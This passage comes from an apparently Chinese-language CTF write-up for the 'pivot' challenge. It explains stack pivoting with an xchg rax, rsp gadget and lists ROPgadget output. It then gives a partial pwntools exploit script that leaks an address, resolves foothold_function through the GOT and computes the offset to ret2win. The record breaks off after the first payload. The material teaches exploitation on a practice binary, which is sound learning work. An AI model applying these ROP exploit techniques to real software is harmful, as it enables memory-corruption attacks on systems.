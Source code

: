 ### pivot

基本同上，但你可以尝试把修改 rsp 的部分也用 gadgets 来实现，这样做的好处是我们不需要伪造一个堆栈，即不用管 ebp 的地址。如：

```python
payload_2  = "A" * 40
payload_2 += p64(pop_rax)
payload_2 += p64(leakaddr)
payload_2 += p64(xchg_rax_rsp)
```

实际上，我本人正是使用这种方法，因为我在构建 payload 时，`0x0000000000400ae0 <+165>:   leave`，leave;ret 的地址存在截断字符 `0a`，这样就不能通过正常的方式写入缓冲区，当然这也是可以解决的，比如先将 `0a` 换成非截断字符，之后再使用寄存器将 `0a` 写入该地址，这也是通常解决缓冲区中截断字符的方法，但是这样做难度太大，不推荐，感兴趣的读者可以尝试一下。

```text
$ ropgadget --binary pivot --only "mov|pop|call|add|xchg|ret"
0x0000000000400b09 : add rax, rbp ; ret
0x000000000040098e : call rax
0x0000000000400b05 : mov rax, qword ptr [rax] ; ret
0x0000000000400b00 : pop rax ; ret
0x0000000000400900 : pop rbp ; ret
0x0000000000400b02 : xchg rax, rsp ; ret
```

```python
from pwn import *

#context.log_level = 'debug'
#context.terminal = ['konsole']
io = process('./pivot')
elf = ELF('./pivot')
libp = ELF('./libpivot.so')

leave_ret = 0x0000000000400adf

foothold_plt     = elf.plt['foothold_function'] # 0x400850
foothold_got_plt = elf.got['foothold_function'] # 0x602048

pop_rax      = 0x0000000000400b00
pop_rbp      = 0x0000000000400900
mov_rax_rax  = 0x0000000000400b05
xchg_rax_rsp = 0x0000000000400b02
add_rax_rbp  = 0x0000000000400b09
call_rax     = 0x000000000040098e

foothold_sym = libp.symbols['foothold_function']
ret2win_sym  = libp.symbols['ret2win']
offset = int(ret2win_sym - foothold_sym) # 0x14e

leakaddr  = int(io.recv().split()[20], 16)

# calls foothold_function() to populate its GOT entry, then queries that value into EAX
#gdb.attach(io)
payload_1  = p64(foothold_plt)
payload_1 += p64(pop_rax)
payload_1 += p64(foothold_got_plt)
payload_1 += p64(mov_rax_rax)
payload_1 += p64(pop_rbp)
payload_1 += p64(offset)
payload_1 += p64(add_rax_rbp)
payload_1 += p64(call_rax)

io.sendline(payload_1)

# rsp = leakaddr
```